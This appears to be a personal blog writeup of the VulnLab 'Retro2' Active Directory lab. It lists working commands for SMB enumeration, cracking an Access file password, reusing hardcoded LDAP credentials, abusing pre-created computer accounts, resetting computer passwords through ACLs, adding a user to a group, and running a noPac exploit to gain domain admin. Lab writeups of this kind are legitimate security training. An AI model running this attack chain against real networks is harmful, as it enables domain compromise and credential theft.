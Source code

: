 ```yaml
---
title: VulnLab -- Retro2 Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ACLs,pre2k]
image:
    path: images/retro2-banner.png
---
```

# Retro2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro2-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 139,49173,5722,135,49154,3269,389,9389,636,464,3389,49155,49157,3268,49158 --min-rate=1000 10.10.103.242
```

![image.png](../images/retro2.png)

Now let’s enumerate the shares on the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares
```

![image.png](../images/retro2%201.png)

> We see we have access to a share named Public
> 

Now let’s try to access the share

```bash
smbclient \\\\retro2.vl\\Public -U "retro2.vl\guest"
```

![image.png](../images/retro2%202.png)

and we got access to two folders DB and TEMP

let’s go to the DB folder and see it’s content

```bash
cd DB
```

![image.png](../images/retro2%203.png)

we found an access document so let’s go download it and open it

```bash
get staff.accdb
```

![image.png](../images/retro2%204.png)

now let’s open the access file

![image.png](../images/retro2%205.png)

> Since the access file have a password let’s crack it
> 

First get the password hash

```bash
office2john staff.accdb > crackme.txt
```

![image.png](../images/retro2%206.png)

Now let’s crack the password

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/retro2%207.png)

we got the password for the office file which is class08

let’s go and open it again

![image.png](../images/retro2%208.png)

> We found a VB script that is making ldap query with hardcoded username and password
username: retro2\ldapreader
password: ppYaVcB5R
> 

Now let’s see if they are working!

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R
```

![image.png](../images/retro2%209.png)

Yeah they did now let’s get all the users in the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares --users --rid-brute 10000
```

![image.png](../images/retro2%2010.png)

now save the output and let’s extract the usernames

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro2%2011.png)

Now let’s get a bloodhound

![image.png](../images/retro2%2012.png)

now let’s open bloodhound and search for any interesting attack vector 

![image.png](../images/retro2%2013.png)

we didn’t find anything so let’s try to search for pre created computer accounts

```bash
nxc smb retro2.vl -u 'fs01$' -p 'fs01' 
```

![image.png](../images/retro2%2014.png)

Now let’s change it’s password

```bash
impacket-changepasswd retro2.vl/FS01$:fs01@10.10.103.242 -altuser ldapreader -altpas ppYaVcB5R
```

![image.png](../images/retro2%2015.png)

now let’s see what this computer can do

![image.png](../images/retro2%2016.png)

notice that our computer have generic write over another computer so let’s reset the ADMWS01 computer password

```bash
net rpc password ADMWS01$ -U retro2.vl/'FS01$'%'remo123$' -S 10.10.103.242
```

![image.png](../images/retro2%2017.png)

now let’s check if the password is changed!

```bash
nxc smb retro2.vl -u 'ADMWS01$' -p 'remo123$'
```

![image.png](../images/retro2%2018.png)

yes it changed so let’s go back to bloodhound and see what we can do now

![image.png](../images/retro2%2019.png)

> Out computer object can add a member to the service group
> 

Now let’s add the ldapreader to the service group

```bash
bloodyAD --host bln01.retro2.vl -d retro2.vl -u "ADMWS01$" -p "remo123$" add groupMember "SERVICES" "ldapreader"
```

![image.png](../images/retro2%2020.png)

Now since ldapreader is now member of the services group let’s see what this group can do

![image.png](../images/retro2%2021.png)

> Notice that the members of the services group can RDP to the machine
> 

Let’s RDP to the machine

```bash
xfreerdp /u:ldapreader /p:ppYaVcB5R /d:retro2.vl /v:10.10.103.242 /cert-ignore /tls-seclevel:0
```

![image.png](../images/retro2%2022.png)

Now let’s exploit the noPac bug to get admin privilege

```bash
python noPac.py retro2.vl/ldapreader:'ppYaVcB5R' -dc-ip 10.10.103.242 -shell --impersonate administrator -use-ldap
```

![image.png](../images/retro2%2023.png)

and we got admin privilege

so let’s go to the admin desktop and see the flag

```bash
dir c:\users\administrator\desktop
```

![image.png](../images/retro2%2024.png)

Amazing we got the root flag 🥳

![image.png](../images/retro2%2025.png)

That’s it for the **Retro2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX